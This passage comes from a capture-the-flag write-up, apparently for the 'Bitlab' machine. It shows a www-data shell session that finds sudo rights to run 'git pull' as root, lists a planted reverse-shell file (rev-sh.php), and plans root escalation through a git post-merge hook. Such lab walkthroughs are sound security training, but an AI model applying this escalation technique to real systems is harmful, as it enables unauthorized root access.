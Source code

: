 ```console
/var/www
```

We check if we have sudo rights, where is the home of www-data and what we found there:

```console
www-data@bitlab:/var/www$ sudo -l
sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull
www-data@bitlab:/var/www$ getent passwd www-data
getent passwd www-data
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
www-data@bitlab:/tmp/profile$ cd /var/www/html/profile
cd /var/www/html/profile
www-data@bitlab:/var/www/html/profile$ ls -la
ls -la
total 144
drwxr-xr-x 3 root root  4096 Jan 10 19:56 .
drwxr-xr-x 5 root root  4096 Jul 30 12:37 ..
drwxr-xr-x 8 root root  4096 Jan 10 20:02 .git
-rw-r--r-- 1 root root    42 Feb 26  2019 .htaccess
-rw-r--r-- 1 root root   110 Jan  4  2019 README.md
-rw-r--r-- 1 root root 93029 Jan  5  2019 developer.jpg
-rw-r--r-- 1 root root  4184 Jan  4  2019 index.php
-rw-r--r-- 1 root root  5493 Jan 10 19:55 rev-sh.php    
```

So far we know that the repos of git are under ```/var/www/html/``` and that we are allowed to do a git pull with sudo rights inside the repos, this is what we will be using to get root by taking advantage of the webhooks enabled in gitlab (post-merge hook) and the ability to run git pull with root rights (```git pull``` is like git fetch and git merge in one for saying it in a way), for understanding how these 2 things work, jump into the documentation of [hooks: post merge](https://git-scm.com/docs/githooks#_post_merge) and the one for [git pull](https://git-scm.com/docs/git-pull).

Our repo doesn't allow us to edit files there, so we copy the repo to a place where we have them:

```console
www-data@bitlab:/var/www/html$ cp -r profile /tmp/profile
cp -r profile /tmp/profile
www-data@bitlab:/tmp/profile$ ls -la
ls -la
total 148
drwxr-xr-x 4 www-data www-data  4096 Jan 10 20:08 .
drwxrwxrwt 3 root     root      4096 Jan 10 20:03 ..
drwxr-xr-x 8 www-data www-data  4096 Jan 10 20:03 .git
-rw-r--r-- 1 www-data www-data    42 Jan 10 20:03 .htaccess
-rw-r--r-- 1 www-data www-data   110 Jan 10 20:03 README.md
-rw-r--r-- 1 www-data www-data 93029 Jan 10 20:03 developer.jpg
-rw-r--r-- 1 www-data www-data  5493 Jan 10 20:03 foo
-rw-r--r-- 1 www-data www-data  4184 Jan 10 20:03 index.php
drwxr-xr-x 3 www-data www-data  4096 Jan 10 20:08 profile
-rw-r--r-- 1 www-data www-data  5493 Jan 10 20:03 rev-sh.php
```
